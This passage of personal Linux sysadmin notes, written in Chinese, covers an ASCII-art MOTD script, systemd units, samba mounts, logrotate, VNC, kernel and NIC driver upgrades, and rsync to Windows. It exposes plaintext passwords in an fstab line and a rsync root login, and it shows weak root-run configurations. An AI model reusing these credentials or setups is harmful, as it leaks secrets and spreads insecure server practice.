            xx+= '00'
        elif rgb[i]<135:
            xx+= '5f'
        elif rgb[i]<175:
            xx+= '87'
        elif rgb[i]<215:
            xx+= 'af'
        elif rgb[i]<225:
            xx+= 'd7'
        else:
            xx+= 'ff'
        name =  ''.join(xx)
    value = color_dict[name]
    return value 

#随后对输入图进行遍历，将所有的RGB值转换为相应的真彩值
def cvtimg(img,color_dict):
    ascii_img = np.array(img[:,:,0],dtype=np.string_)
    for h in range(img.shape[0]):
        for w in range(img.shape[1]):
            ascii_img[h,w] = cvtrgb(img[h,w,:],color_dict)   #调用换色函数
    return ascii_img  #返回值中每一个像素已经是真彩值

def img_color_ascii(img,r=2):
    grays = "@%#*+=-:. "   #由于控制台是白色背景，所以先密后疏/黑色背景要转置一下
    gs = 10                #10级灰度

    #h 图像的垂直尺寸（高。行数）、w 图像的水平尺寸（宽，列）
    w = img.shape[1]
    h = img.shape[0]
    ratio = r*float(w)/h  #调整长宽比-根据终端改变r
    scale = w // 100    #缩放尺度/取值步长，向下取整，每100/50个像素取一个 值越小图越小(scale 越大)
    for y in range(0, h, int(scale*ratio)):  #根据缩放长度 遍历高度 y对于h，x对应w
        strline=''
        for x in range(0, w, scale):  #根据缩放长度 遍历宽度
            idx=img[y][x] * gs // 255  #获取每个点的灰度  根据不同的灰度填写相应的 替换字符
            if idx==gs:
                idx=gs-1  #防止溢出
			######改变这里， 将真彩值利用命令行格式化输出赋予
            color_id = "\033[38;5;%sm%s"%(img[y][x],grays[2])      #输出！
            strline+= color_id #按行写入控制台
        print(strline)

img0 = cv2.imread('/etc/profile.d/motd/siping_logo.png')
img =cv2.cvtColor(img0,cv2.COLOR_BGR2RGB)
plt.imshow(img)
plt.axis('off')
plt.show()

#使用前面定义的颜色字典，颜色转换函数cvtrgb和图像映射哈数cvtimg
ass = cvtimg(img,color_dict)
ass = np.array(ass,dtype=np.int)  #将array转化为int类型

img_color_ascii(ass,2.5)          #彩色绘图函数,r=2.5调整比例,由于命令行行距存在需要微调r因子
```

2. /etc/profile.d/motd.sh 脚本内容，类似如下

```shell
#!/bin/bash

/usr/local/python3/bin/python3 /etc/profile.d/motd/siping.py
```

3. /etc/motd 内容，类似如下

```
Warning!!!Warning!!!Warning!!!Warning!!!Warning!!!Warning!!!Warning!!!Warning!!!!!!!
====================================================================================
FBI!!Open The Door!!!FBI!!Open The Door!!!FBI!!Open The Door!!!FBI!!Open The Door!!!
```

- /etc/profile.d/  目录下脚本开机自启，所以同样会在登录终端时呈现。。效果类似如下


---

参考，

要显示动态提示信息，[is-it-possible-to-put-commands-in-etc-motd](https://serverfault.com/questions/459229/is-it-possible-to-put-commands-in-etc-motd), 

[给服务器设置动态motd效果](https://whoisnian.com/2018/06/21/%E7%BB%99%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%AE%BE%E7%BD%AE%E5%8A%A8%E6%80%81motd%E6%95%88%E6%9E%9C/)，

## systemd 管理服务

- 将服务创建一个新 systemd 服务，来实现**<u>开机自启</u>**，（算是进阶方法。当然也可以将脚本用chkconfig 添加到开机自启。或写到 /etc/rc.local，不过需要source /etc/profile ）

```bash
cat /etc/rc.local 
#!/bin/bash
# THIS FILE IS ADDED FOR COMPATIBILITY PURPOSES
#
# It is highly advisable to create own systemd services or udev rules
# to run scripts during boot instead of using this file.
#
# In contrast to previous versions due to parallel execution during boot
# this script will NOT be run after all other services.
#
# Please note that you must run 'chmod +x /etc/rc.d/rc.local' to ensure
# that this script will be executed during boot.

touch /var/lock/subsys/local
source /etc/profiles || vncserver :1
```

1. 创建一个名为sone 的systemd服务，
   1. 可以将一个项目内的所有启动服务指令，写到一个脚本内。将该项目  sone 服务开机自启即可。
   2. ~~或是，将所有要重启的服务，都写到一个restart 脚本内，之后将该服务开机自启~~ 

```
vim /lib/systemd/system/sone.service

[Unit]
Description=restart
After=default.target
[Service]
ExecStart=/root/script/restart.sh
[Install]
WantedBy=default.target
```

2. systemctl dameon-reload 
   1. systemctl enable sone.service 

3. 还有种服务，是需要其他服务启动成功后（有时间间隔），才能启的，可以如下类似

```
# 在启动后 5 分钟内运行指定的脚本。当然可以在脚本内判断他的前置服务是否启成功
@reboot sleep 300 && /home/wwwjobs/clean-static-cache.sh
```

##### systemctl创建kift.service 管理服务

- 内网搭建了一个网盘服务[kiftd](*https://kohgylw.gitee.io/index.html#myCarousel*) ，需要做开机自启，服务目录结构如下

  `▶ tree -LN 1 /usr/local/kiftd` 

```
/usr/local/kiftd
├── conf
├── filesystem
├── fonts
├── kiftd-1.0.35-RELEASE.jar
├── kiftd说明文档.pdf
├── libs
├── logs
├── mybatisResource
├── nohup.out
├── README.md
├── startup.sh
├── webContext
└── 使用许可
```

- 编写的启动脚本内容为：

```bash
cat startup.sh
#!/bin/bash

nohup java -jar kiftd-1.0.35-RELEASE.jar -start &
```

- 编写的系统服务kift.service 内容为：

```bash
▶ cat  /usr/lib/systemd/system/kift.service
[Unit]              # 主要描述和规定启动前后的顺序依赖关系
Description=demo_kiftd_service
Documentation=xxxxxx
After=network-online.target
Wants=network-online.target
Requires=zzzzzzzz
[Service]           # 主要是核心的控制语句
Type=forking
User=root
Group=root
KillMode=control-group
# ExecStart=/bin/bash -c 'nohup /usr/bin/java -jar /usr/local/kiftd/kiftd-1.0.35-RELEASE.jar -start &'
ExecStop=/usr/local/kiftd/kiftd stop		# 还是调脚本启动停止
ExecReload=/bin/kill -s HUP $MAINPID
PrivateTmp=true
RemainAfterExit=yes
[Install]           # 主要是定义服务启动相关
WantedBy=multi-user.target
# Alias=zzzzz
```

1. 经测试，systemctl start|stop|restart kift.service 均成功

   设置开机自启，systemctl enable kift.service

2. 注意看打印出的服务状态，

```
▶ systemctl status kift.service
● kift.service - demo
   Loaded: loaded (/usr/lib/systemd/system/kift.service; enabled; vendor preset: disabled)
   Active: active (running) since Wed 2021-09-15 09:08:53 CST; 10min ago
 Main PID: 15234 (java)
   CGroup: /system.slice/kift.service
           └─15234 /usr/bin/java -jar /usr/local/kiftd/kiftd-1.0.35-RELEASE.jar -start

Sep 15 09:08:55 localhost.localdomain bash[15233]: WARNING: Illegal reflective access by org.springframework.cglib.core.ReflectUtils$1 (file:/usr/local/kiftd/libs/spring-core-5.0.6.RELEASE.jar) t...ectionDomain)
Sep 15 09:08:55 localhost.localdomain bash[15233]: WARNING: Please consider reporting this to the maintainers of org.springframework.cglib.core.ReflectUtils$1
Sep 15 09:08:55 localhost.localdomain bash[15233]: WARNING: Use --illegal-access=warn to enable warnings of further illegal reflective access operations
Sep 15 09:08:55 localhost.localdomain bash[15233]: WARNING: All illegal access operations will be denied in a future release
Sep 15 09:08:56 localhost.localdomain bash[15233]: [2021年09月15日 09:08:56]初始化文件节点...
Sep 15 09:08:56 localhost.localdomain bash[15233]: [2021年09月15日 09:08:56]文件节点初始化完毕。
```

- [systemd各字段含义-入门](https://www.ruanyifeng.com/blog/2016/03/systemd-tutorial-part-two.html)  ，
  - [服务配置文件编写](https://www.junmajinlong.com/linux/systemd/service_2/)  


##### other

- 查看开机启动项， systemctl list-unit-files
  - systemctl status nginx 
  -  systemctl is-enabled !$   查看某一服务是否开机自启，当然也可以在上面结果中查

- 其他技巧

1. systemctl status 24010，                         显示Active: active(running)
   systemctl status 24045，                            提示，Failed to get unit for PID 24045: PID 24045 does not belong to any loaded unit.

   systemctl list-units --type=target                  获取当前正在使用的运行目标
   systemctl list-units --all --state=inactive         列出所有没有运行的Unit
   systemctl list-units --failed                       列出所有加载失败的Unit
   systemctl list-units -t service                 列出所有正在运行，类型为service 的Unit
   systemctl cat nginx18.service                       查看Unit配置的内容

   systemctl list-dependencies --all nginx18.service   列出一个Unit 所有依赖，包括target 类型
   systemctl kill nginx.service                        立即杀死服务
   ~~systemctl daemon-reload                             将Unit 文件内容写到缓存中，所以Unit文件更新时，要systemd 重新读取~~ 
   systemctl reset-failed                              移除标记为丢失的Unit文件
   systemctl get-default                               查看启动时默认的Target，查看当前的运行级别
   systemctl set-default multi-user.target             设置默认的
   systemctl list-unit-files --type=target             查看系统的所有Target
   systemctl list-dependencies multi-user.target       查看一个target包含的所有Unit
   systemctl isolate multi-user.target                 关闭前一个Target里面所有不属于后一个Target的进程
   systemctl -l| grep -v exited | less

   systemd-analyze time								从内核启动开始，至开机结束所花时间
   
2. 

   journalctl -u nginx18.service                       查看指定服务的日志
   journalctl -f                                       实时滚动最新日志
       journalctl -u nginx18.service -f

systemctl reboot[poweroff|halt|suspend]                                     重启系统[切断电源|CPU停止工作|暂停系统]
systemd-analyze critical-chain nginx18.service      查看指定服务的启动流
    systemd-analyze blame

3. timedatectl                                           查看当前时区设置
       timedatectl list-timezones
   loginctl show-user root

4. 排查服务日志

`journalctl -u proclient.service -b` (-b，仅查看当前引导的日志消息)
`journalctl -f` 
`journalctl -xe` 
`systemctl is-enabled|is-active|is-failed  anacron.service` 

`systemd-analyze verify proclient.service` 检查proclient 服务的编写有无问题

## samba 挂载（同步）win共享文件夹

1. `yay -S samba`   archlinux配置与windows文件共享

- ~~实现了，非root用户也可对共享文件进行编辑并保存，可以的~~
- **这是因为用户属于root用户组，！！！！这种情况非常不安全，而且删除文件时没提示。。。**  
- `yum install nfs-utils rpcbind``systemctl start|enable rpcbind|nfs`
- 客户端(linux)，`yum install samba-client cifs-utils`  （cifs 是samba的文件系统）
  - 测试，`smbclient -L 192.168.10.185 -Uliuzel01`

```shell
需要现在windows（主机名DESKTOP-GU5AA0B）上共享一个文件夹，文件夹路径为C:\siping\newOneFiles\file
当然，要添加映射cat /etc/hosts
192.168.10.214  DESKTOP-GU5AA0B
cat /etc/fstab 
# //DESKTOP-GU5AA0B/file /home/liuzel01/windows cifs username=liuzel01,password=Tianfuc11,guest,x-systemd.automount 0 0
//DESKTOP-GU5AA0B/file /home/liuzel01/windows cifs x-systemd.automount,rw,iocharset=utf8,username=liuzel01,password=Tianfuc11,file_mode=0775,dir_mode=0775 0 0
```

- 前往参考，[systemd.mount中文手册](http://www.jinbuguo.com/systemd/systemd.mount.html)，[samba服务实现linux与windows相互共享资源](https://www.jianshu.com/p/830f1bd5b5e0)  ，

  [configuring fstab based samba share mounts](https://discourse.osmc.tv/t/configuring-fstab-based-samba-share-mounts/38167/9),  

  [systemd时代的/etc/fstab](https://www.junmajinlong.com/linux/systemd/systemd_fstab/), 

## logrotate转储日志文件

 head -10000 nohup.log > nohup_Head.log  获取文件的前10000行。 tail获取文件的后10000

  sed -n '1,10000' nohup.log  从第N行截取到M行

  split -d -l 500 nohup.log nohup --verbose 

  split -d -b 50m nohup-license.log  nohup. --verbose  每个文件50M，输出文件名 nohup.0{1..n}

​    for i in `ls | grep nohup`; do q=`echo $i | awk -F '.' '{print $1$2".log"}'`; mv $i $q ;done  文件名换位 .log 后缀

​    切割后的文件合并，cat nohup0*.log > nohup-l01

  logrotate ，配置存放路径， /etc/logrotate.d/

```
vim /etc/logrotate.d/new_mariadb

/home/data/log/maria*.log {
  # 当日志文件为空时，不进行轮转
  notifempty
  # 一天执行一次rotate轮转工作
  daily
  # 历史文件保留目录
  olddir /home/log_old/mysql
  # 文件大小达到指定大小时，才会转储
  minsize 1M 或 size=500M
  # 保留10个日志文件（轮转几次）就是日志文件删除之前轮转的次数，0指没有备份
  rotate 10
  # 自动创建新的日志文件，指定权限及所属
  create 600 mysql mysql
  # 切割后的日志文件以当前日期为格式结尾，如：nginx.access.log-20190101
  dateformat -%Y%m%d%s
  # 日志时间格式
  dateext
  # 如果日志丢失，不报错继续滚动下一个日志
  missingok
  # 否开启压缩，压缩格式gzip,如xxxx.log-20222222.gz。下面表示不做gzip压缩处理
  nocompress
  # 在logrotate转储之后需要执行的指令，例如kill某个服务
  postrotate
  # just if mysqld is really running
  if test -x /usr/bin/mysqladmin && \
  /usr/bin/mysqladmin ping &>/dev/null
  then
  /usr/bin/mysqladmin --local flush-error-log \
  flush-engine-log flush-general-log flush-slow-log
  fi
  endscript
}
```

 -vfd  调试验证一下，但不进行具体操作     --debug

 logrotate -fv /etc/logrotate.d/new_mariadb --force 手动强制执行日志切割
   -v  根据日志切割设置进行操作，显示详细信息

 可参考，/etc/logrotate.d/syslog

- tomcat 日志切割

```
cat /etc/logrotate.d/tomcat

rotate 14
daily 
# 用于还在打开中的日志文件，把当前日志备份并截断。拷贝和清空之间有一个时间差，可能会丢失部分日志数据
copytruncate
compress
notifempty
missingok
```

- 参考，[linux日志切割神器](https://blog.csdn.net/yjk13703623757/article/details/119757254)  

# 桌面化相关

## vnc

1. yum install tigervnc-server

2. mv /lib/systemd/system/vncserver@.service /lib/systemd/system/vncserver@:1.service

  systemctl daemon-reload

  vncpasswd root

​    vncserver， 如果不行试试这个

  systemctl status vncserver@:1.service

  启动服务，设置开机自启。 status 是running 状态，就表示能用root连的

  ss -tlnp | grep vnc

3. VNC Viewer 登录时，这么写， 192.168.10.27:5901

```bash
▶ cat /lib/systemd/system/vncserver@:1.service
[Unit]
Description=Remote desktop service (VNC)
After=syslog.target network.target
[Service]
Type=simple
User=root
# Clean any existing files in /tmp/.X11-unix environment*
ExecStartPre=/bin/sh -c '/usr/bin/vncserver -kill %i > /dev/null 2>&1 || :'
ExecStart=/usr/bin/vncserver_wrapper root %i
ExecStop=/bin/sh -c '/usr/bin/vncserver -kill %i > /dev/null 2>&1 || :'
[Install]
WantedBy=multi-user.target
# 但是装好DM(lighttdm)后，vnc远程过去看不到登录页面；只有在外接显示器情况下能看到lightdm，不知道是不是这里参数要改
```

## DE (desktop environment)

1. <font color=orange>**下面是在centos上做的试验。**</font> 

```
DM(desktop management): lightdm
WM(window management): i3wm
...ToBeContinued

```

- i3wm, 其实可以对比KDE（K Desktop Environment） 中的Kwin
- systemctl enable lightdm.service
  - systemctl get-default,  注意一定检查，默认启动方式是什么。不然排查半天，还是在检查lightdm的配置

1. 首先查看下，是否有装gnome环境， yum list installed | grep -Pi '(gnome)'
       yum remove gnome-desktop3
       ▶ yum grouplist | grep -i 'gnome'       查看是否有安装gnome桌面化
       然后， yum groupremove 上面的包名~
       不过你list installed 的时候，还是有很多gnome 的软件，可以一并删除

2. lightdm 的配置文件， vim /etc/lightdm/lightdm.conf 有这样一行，

```
[VNCServer]
enabled=true  # 改成true，可以连接vnc进行登录测试
```

- 关闭centos启动项，[centos7优化启动项](http://doc.aiwaly.com/docs/yunwei/yunwei-1bvfa4rr9q776) 
  - 查看所有的正在运行的进程， systemctl status -all| grep running 

3. 要自定义桌面化的话，可参考reddit上的 [这里](https://www.reddit.com/r/unixporn/comments/pf4vvk/i3gaps_blue_is_my_favorite_color_which_blue_yes/) 

---

- 杂项

```txt
WM（窗口管理器），和DE（桌面环境）是两个不同概念。同一个DE（例如GNOME）可以使用不同的WM（例如TWM FVWM Kwin）
echo $XDG_CURRENT_DESKTOP       打印出，当前正在使用哪个桌面环境。我在vnc连接进去后的终端运行就会显示KDE, 这也证明了和我ssh远程过去的 session 并不是同一个
	并且，在vnc连进去后和用ssh远程时，screenfetch 所打印出的信息也会有差异。vnc连进去会有DE/ WM/ WM Theme/Resolution信息

tty,                            打印出当前连接者用的终端，
w                           显示所有终端，
```


##### manjaro-kde

- 下面就是在虚拟机，对manjaro 自定义DE 


# FAQ（服务器）

## proc file system in linux

- /proc  目录下各文件解释，

```
/proc/crypto		list of available cryptographic modules
/proc/diskstats		information (including device numbers) for each of the logical disk devices
/proc/filesystems	列出时内核支持的文件系统列表
/proc/kmsg			保存内核输出信息
/proc/scsi			information about any devices connected via a SCSI or RAID controller
/proc/tty			information about the current terminals
meminfo				summary of how the kernel is managing its memory.
version				包含 Linux 内核版本、发行版号、gcc 版本号（用于构建内核）以及与当前运行的内核版本相关的任何其他相关信息
cmdline 
cpuinfo 
```

1. 获取某进程pid

2. `cd /proc/$pid `  进入到某进程的目录下，

```txt
仅列出一些重要的
less cmdline		command line of the process
cat environ    		environmental variables
less fd            file descriptors
less limits    		contains information about the limits of the process
less mounts    		related information
less status 		查看启动这个进程的用户所在的组
	cat /proc/`pgrep java | grep -v grep `/status | grep -i 'groups'
	Pid				ps命令的LWP列输出，PID是进程组。LWP是轻量级进程，也即是线程。所有的进程必须一个线程，
		譬如，ps -Lf `pgrep java | grep -v grep `
	PPid			当前进程的父进程，
	

几个常见链接： cwd		a link to the current working directory of the process
   exe                  link to the executable of the process
   root                 link to the work directory of the process
```


## centos7-ABRT has detected 1 problem(s)

- 问题描述：

1. centos服务器装完系统后，提示一句，`ABRT has detected 1 problem(s). For more info run: abrt-cli list--since 148357723` 
2. 截图如下。




- 问题解决：

1. 其实图中已经有说明，原因、产生问题的软件包、产生问题的用户、路径、还有最后一行的解决办法。
2. 可选择将webkitgtk4.x86_64 相关的包卸载掉（因为是刚刚重装的系统，其他的按需）

- 基本思路：

1. 看提示（终端显示的错误信息，和建议执行方法）
2. 查日志（查看系统日志 /var/log/ 目录下的日志文件。如若是相关服务，就查看服务的日志文件，比如mysql数据库的日志文件等）
3. 上网查相关资料

## centos7 升级内核

- 问题描述

1. 升级内核
2. 开机使用新内核时，识别不出有线网卡。而且，你去看主机后面网卡灯也是不正常的
   1. 最后，确认为网卡驱动不满足所导致。内核默认使用的是 r8169，需要去[官网](https://www.realtek.com/zh-tw/component/zoo/category/network-interface-controllers-10-100-1000m-gigabit-ethernet-pci-express-software)装r8168的，要和网卡相匹配

- 问题解决

1. `uname -sr` ,`cat /etc/redhat-release`

2. `rpm -import https://www.elrepo.org/RPM-GPG-KEY-elrepo.org`

3. `rpm -Uvh http://www.elrepo.org/elrepo-release-7.0-2.el7.elrepo.noarch.rpm`

4. `lspci -v` 查看使用的网卡驱动（内核默认使用的网卡驱动r8169，但实际网卡是r8168）

   1. `ethtool -i enp3s0` 查看网卡的固件版本以及所依赖的驱动，firmware-version: rtl8168g-2_0.0.1 02/06/13

   2. `lspci -nn | grep -i eth` 查看具体的网卡驱动型号，

      03:00.0 Ethernet controller [0200]: Realtek Semiconductor Co., Ltd. RTL8111/8168/8411 PCI Express Gigabit Ethernet Controller [10ec:8168] (rev 0c)

5. `awk -F\' '$1=="menuentry " {print $2}' /etc/grub2.cfg` 查看grub中默认内核版本

6. 下载好驱动后，运行  ./autorun.sh ，报错了

   1.  tar -xjf r8168-8.048.03.tar_2.bz2

------

1. cat /boot/grub2/grub.cfg |grep menuentry     查看系统可用内核
2. uname -sr                     查看当前内核
3. grub2-set-default 'CentOS Linux (3.10.0-1160.xxxx) 7 (Core)'     修改开机时默认使用的内核
4. grub2-editenv list                查看内核修改结果

- <font color=orange>**出错，只可能是因为下载安装的不够多我觉得**</font>

1. rpm -qa |grep kernel               查看系统安装了哪些内核包
2. yum remove kernelxxxx              yum remove 或者rom -e 删除无用内核

- 不过服务使用的还是NetworkManager。
  - <font color=red>附：因为升级了5 版本，network好像就不太好使了，NetworkManager就被我写到自启动里了 /etc/rc.local</font>,


```bash
192.168.10.27, 有点caoDan昂，
    lspci | grep Eth        查看 Netowrk device
    lsmod | grep 816        显示 loaded driver，可以看到前后两者并不匹配
    cat /etc/init.d/connectNet 文件内容如下（当然也可以直接在这里加入到开机自启）
    rmmod r8169 ;systemctl restart NetworkManager ;modprobe r8169

    能够看出，虽然两者不匹配，但是重启后可以上网。但是网速的话，可能会受到点影响...
        但是我远程连着，貌似影响不大呢，玄学
    init 6 重启
    awk -F\' '$1=="menuentry " {print i++ " : " $2}' /etc/grub2.cfg     列出已安装了的内核版本
    	能看出，新安装的5.4 版本索引是0
```

3. 参考，[ethernet RTL 8168 driver on Centos](https://www.unixteacher.org/blog/ethernet-rtl-8168-driver-on-centos/)
4.  加入到开机自启动失败，发现 /etc/rc.local 的软链接是 /etc/rc.d/rc.local
   1. 而/etc/rc.d/rc.local 文件没有执行权限，chmod +x ;init 6 验证成功了
5. 见[官网](http://elrepo.org/tiki/HomePage)

---

- 也可以在线升级内核，[centos7在线升级最新版本内核](*https://cloud.tencent.com/developer/article/1666173*)

​    `rpm --import https://www.elrepo.org/RPM-GPG-KEY-elrepo.org`

```
yum install https://www.elrepo.org/elrepo-release-7.el7.elrepo.noarch.rpm
yum --enablerepo=elrepo-kernel install kernel-lt          安装lt内核，lt为长期支持的内核。 kernel-ml 为最新版本的内核
为方便后面一步到位，下面这里也安装上
yum --disablerepo=’*’ --enablerepo=elrepo-kernel install kernel-lt-devel
yum --disablerepo=’*’ --enablerepo=elrepo-kernel install kernel-lt-headers
```

   grub2-mkconfig -o /boot/grub2/grub.cfg

​    cat /boot/grub2/grub.cfg | grep menuentry

​	grub2-set-default 'CentOS Linux (5.4.93-1.el7.elrepo.x86_64) 7 (Core)'

​		或是`grub2-set-default 0`

​    less /etc/default/grub                       检查一下

没有生效的话，reboot。。~~可惜的是，有时候还是会出现驱动不匹配的情况，还是要返回上面~~

​    uname -sr

​    grub2-editenv list  查看默认内核，，此时就不要去看内核启动顺序那个了(不准确)。

## centos7 GUI版报错jar command not found

- 问题描述

1. 在centos7服务器上安装elasticsearch,解压jar包时,提示 jar command not found 
2. 解压jar包,`jar -xf x-pack-core-7.10.1.jar`
   1. 压缩打包,`jar -cfv x-pack-core-7.10.1.jar`

- 问题解决

1. 因为是在装系统时,服务器自动安装上jdk环境的,所以

   1. `which java` 能看到 /usr/bin/java, 但是 `which jar` 就看不到

2. 接着, `ll /usr/bin/java`其实是链接文件,层层查,能找到源目标文件为

   /usr/lib/jvm/java-1.8.0-openjdk-1.8.0.275.b01-0.el7_9.x86_64/jre/bin/java

3. 最后通过 `find / -name jar`查到jar可执行文件目录,

   /es/elasticsearch-7.10.1/jdk/bin/jar

4. 之后,链接文件就完事儿了.`ln -sf /es/elasticsearch-7.10.1/jdk/bin/jar /usr/bin/jar` (或是添加到环境变量)

- FAQ

1. 不过感觉,这个jar是 elastic的jar,,在系统里或许应该要安装软件包
2. 这种情况，根本原因，是只装了jre,并没有装jdk，jar命令是jdk中的,所以需要安装jdk
3. `yum search oenjdk`
4. `yum install java-devel`直接给他全套就完事儿

---

1. 参考，[升级centos7/6内核版本到4.12.4的方法](https://www.cnblogs.com/sexiaoshuai/p/8399599.html)，[ubuntu最近升级到最新linux内核后，网络无法使用怎么办](https://www.cnblogs.com/dakewei/p/10902439.html)，[linux内核升级-更新网卡驱动](https://blog.csdn.net/weixin_30614109/article/details/97691924?utm_medium=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.control&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.control)，

## 编译安装软件，报错

- 在编译安装软件时，make sense 报错：

```
/usr/bin/ld: 找不到 -lc
collect2: 错误：ld 返回 1
make: *** [strings-static] 错误 1
```

1. 解决： yum install glibc-static


## rsync实现linux-win文件同步

- [参考](*https://www.mekau.com/3773.html*)
- win客户端同步linux服务器上的文件夹（将linux服务器的文件夹内容， 同步到windows客户端主机）
- 倍智-192.168.4.247服务器， 可能由于不是管理员administrator；也可能由于是winserver服务器，暂时文件备份未成功；也可能由于win无创建ssh-keygen 秘钥导致的

1. 在我本机（win10）测试过，可以通过运行脚本同步文件夹（centos7.9）。再将脚本加入到win的计划定时任务，就可以实现定时同步linux上的数据文件了~
2. linux服务端，安装 `yum install -y rsync`， linux服务器地址，192.168.10.27，账户名： root，密码： 123456

```
/etc/rsyncd.conf
uid = root
gid = root
max connections = 4 
pid file = /var/run/rsyncd.pid
lock file = /var/run/rsync.lock
log file = /var/log/rsyncd.log
#下面这个模块区域可以配置多个，每一个代表一个允许同步的path*
[backup]
path = /home/lzl/bakup/
ignore errors
read only = no
list = true
auth user = root 
secrets file = /etc/rsyncd.pwd  
/etc/rsyncd.pwd
123456
```

1. win客户端，下载[cwRsync_5.4.1_x86_Free.zip](*https://download.cnet.com/cwRsync/3001-18511_4-75765181.html*)，

​    在程序 rsync.exe 同级下创建backup.bat 即可，还有文件passwd.txt，和文件夹backback，内容如下

```
backup.bat
cd C:\Users\44362\Desktop\cwRsync_5.4.1_x86_Free
rsync -vzrtopg --password-file=passwd.txt root@192.168.10.27::backup /cygdrive/C/Users/44362/Desktop/cwRsync_5.4.1_x86_Free/backback
pause
# 用于测试。 测试成功后，上一行可去掉，
```

```
文件： passwd.txt
passwd.txt
123456
```

**最后，将bat 批处理文件加入到计划定时任务就好了~**


## cdls 别名

- 给cd 命名别名，目前操作办法，是在系统配置里写func： vim /etc/bashrc(因为使用的root用户，为了切换用户时仍可使用，就写在了系统配置里)

```bash
alias cd='cdls'
cdls() {
     \cd $1 &&\
         ls
}
```

1. 要查看活动别名的列表,使用 `alias -p`

  `echo $0`      查看目前使用的终端

  `showkey -a`    显示按键的ASCII码

2. 可能是因为cd 属于内置命令。意指，bash 自身提供的命令，而不是文件系统中的某个可执行文件

  type cd ;type ifconfig 来查看一条命令是否内建命令

  xxx is a shell builtin

- 对于别名存储位置

1. 对于别名，理应存储在一个文件内，参考~~centos~~（其实是git-MINGW64）上的环境

```bash
cat /etc/profile.d/aliases.sh
# Some good standards, which are not used if the user
# creates his/her own .bashrc/.bash_profile

# --show-control-chars: help showing Korean or accented characters
alias ls='ls -F --color=auto --show-control-chars'
alias ll='ls -l'
alias ssh27='ssh -p 6022 root@140.246.90.106'
alias ssh68='ssh root@192.168.10.68'

case "$TERM" in
xterm*)
        # The following programs are known to require a Win32 Console
        # for interactive usage, therefore let's launch them through winpty
        # when run inside `mintty`.
        for name in node ipython php php5 psql python2.7
        do
                case "$(type -p "$name".exe 2>/dev/null)" in
                ''|/usr/bin/*) continue;;
                esac
                alias $name="winpty $name.exe"
        done
        ;;
esac
```


## 磁盘相关

- lsblk -f                       查看磁盘UUID

​    -f, --fs                    输出文件系统信息

​    blkid，

​    ll /dev/disk/by-uuid/

- 注意，自己要挂载的是centos_data-vdb ext4， 而不是vdb，因为你已经分区了，UUID就应该是分区后的那块盘

## 脚本相关

- 有时候，linux上的sh 脚本无法执行，原因可能是脚本内容是用dos 模式编辑的，

  `sed -i "s/\r//" jdkInstall.sh` 可以运行了

- 查看、更改文件的格式，vim jdkInstall.sh

  :set ff     观察会弹出什么，fileformat=unix是正常的， =dos就不正确

  :set ff=unix  就将文件格式改变成了unix了

---

- printenv 查看全局环境变量

  set, 显示特定进程的所有环境变量集.其中除了全局,还有本地环境变量

  标准约定: 若要创建新环境变量,则建议使用小写字母.用于区分个人与系统环境变量

- exit [n]  用户使用此，自定义退出状态码
  
  - 状态码 echo $?  熟悉吧，就是这个意思

1. <font color=orange>**注意：**</font> 脚本中一旦遇到exit命令，脚本会立即终止；终止退出状态取决于exit后面的数字
2. 如果未给脚本指定退出状态码，整个脚本的退出状态码取决于脚本中执行的最后一条命令的状态码

---

- 防止扩展

1. \  转义，会使随后的字符按原意解释
2. 加引号防止扩展
   1. 单引号 ''  防止所有扩展
   2. 双引号 ""  防止扩展，但$ 除外
3. set -e 如果一个命令返回一个非0 退出状态（失败）就退出，等同 set -o errexit 

## 更改网卡名

- 重装系统为 centos7，
  	原网卡名为：
    	要更改为 ifcfg-enp1s0
- 需要注意的是：只是更改名称，而设备并没有变，所以uuid 可以根据之前的网卡名来获取到；HWADDR：俺也一样
   - `ifconfig | grep -C 5 eth0 | grep ether`  

```
ifstat
uuidgen enp1s0
既然uuid可以获取到，那HWADDR（mac地址）同样能在服务器找到~  
```

修改网络配置，	vim /etc/sysconfig/network-scripts/ifcfg-enp1s0
		更改有关，NAME DEVICE UUID HWADDR 这几样参数

这几项更改完后，基本按照正常流程，就没得其他要改动的点了

- 可以实现，如若还存在问题，可以更改grub配置，

  ```
  vim /etc/sysconfig/grub 在倒数第二行 quit 后添加如下：
  		net.ifnames=0 biosdevname=0
  执行， grub2-mkconfig -o /boot/grub2/grub.cfg  来生成新的 grub.cfg文件
  ```

  [centos7中的网卡一致性命名规则、网卡重命名方法](https://www.huaweicloud.com/articles/6cb00c8de10b5a3d728ff22878c4b349.html)
  [centos提示eth0 does not seem to be present, delaying initialization](https://www.huaweicloud.com/articles/5f94fe359aa0ffec72764201eaa258dd.html)

## 清理日志文件时出现文件空洞

- 有一个后台服务，使用nohup启动。指令如下，

   `nohup /usr/java/jdk1.8.0_271/bin/java -Xms512m -Xmx1024m -jar ${APP_NAME} > nohup-admin.log 2>&1 &`  

<font color=orange>**现象： **</font> 

1. 经过一段时间，nohup-admin.log文件 会很大，几十M
   1. du -sh nohup-admin.log 
2. 当你用  `echo > nohup-admin.log` ，再查看文件大小，发现为零。 但再次访问服务，日志文件又会马上回到之前几十M 的大小
   1. 并且，会发现log文件顶端有大量的null...
   2. 可以尝试， cat /dev/null > nohup-admin.log
3. 这是典型的磁盘空间未释放的缘故。内容清空，但实际上写入的位置并没重置到文件起始位置，为覆盖写；因此重新写入时都以null占位。<u>所以是以nohup启动，重定向到nohup-admin.log  时出的问题</u> 

<font color=orange>**解决： **</font> 

1. 将启动脚本修改为： >> nohup-admin.log 2>&1 &  对日志文件追加写。验证可行
2. 这样在清空文件时，写入位置置零，追加写入则从起始位置开始写
3. [空洞文件原理详解](http://www.bdkyr.com/performance/2726.html) ，[怎样通过linux系统调用，来获取文件空洞信息](https://www.zhihu.com/question/407305048/answer/1358083582#:~:text=0xAA%20...%20%7C%20%20%20%20HOLE%20%20%20%20%20%7C%20%20%200x55%20...%20%20%7C%0A%2B-------------%2B-------------%2B-------------%2B-------------%2B-,%E8%BF%99%E4%B8%AA%E6%96%87%E4%BB%B6%E7%9A%84Size%E6%98%AF,-16k%EF%BC%8C%E4%BD%86%E6%98%AF%E5%AE%9E%E9%99%85) linux file hole

